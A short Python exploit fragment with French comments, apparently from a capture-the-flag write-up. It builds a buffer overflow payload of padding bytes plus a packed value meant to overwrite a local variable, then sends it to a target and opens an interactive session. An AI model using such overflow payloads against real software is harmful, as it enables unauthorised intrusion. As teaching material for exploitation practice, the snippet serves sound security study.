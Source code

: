 ```python
'''
Je construis le payload, comme dit précedemment, je remplis la variable local_3f8 jusqu'à la variable local_10 puis je rentre la nouvelle valeur de local 10 que je veux, dans mon cas : 0x6465616462656566. J'utilise p64 ici car les instructions envoyés au système sont toujours en little endians ( googlez dessus !)
'''
payload = b"A"*offset
payload += p64(0x6465616462656566)

'''
Envoie du payload final
'''
target.sendline(payload)


target.interactive()

```









